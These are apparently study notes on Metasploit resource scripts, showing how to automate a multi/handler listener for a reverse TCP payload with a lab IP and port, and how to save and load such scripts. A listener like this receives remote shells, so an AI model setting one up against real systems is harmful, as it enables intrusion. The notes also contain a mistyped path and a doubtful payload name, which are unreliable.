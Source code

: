- You can the load the script with MSF console and automate the execution of the commands you specified in the resource script.

- We can use resource scripts to automate various tasks like setting up multi handlers as well as loading and executing payloads.

- There is a collection of resource scripts that come pre-packaged with kali Linux, you can view them by listing out the content of the directory
    ```bash
    /uar/share/metasploit-framework/scripts/resource
    ```

### Example
---
To create a multi handler with resource script.

1. Open text editor
    
    ```bash
    vim handler.rc
    ```
    
2. Create a resource script from outside MSF console.
    
    > Write the commands that you typically run when setting up the handler.
    
    ```bash
	    use multi/handler
	    set PAYLOAD windows/metasploit/reverse_tcp
	    set LHOST 10.10.10.5
	    set LPORT 1234
	    run
    ```
    
3. Create a resource script from inside MSF console.
    
    > You can export all the commands that you write into a resource script.
    
    ```bash
	    makerc <~/path/to/save/resource/script>
    ```
    
	![[Untitled6.png]]

> [!tip] You need to specify the entire path to avoid saving it in root directory.

4. Load the resource script from outside the Metasploit console.
    
    ```bash
    msfconsole -r handler.rc
    ```
    
    >Load the resource script from inside the Metasploit console.
    
    ```bash
	    resource <path/to/resource/script>
    ```

	![[Untitled7.png]]

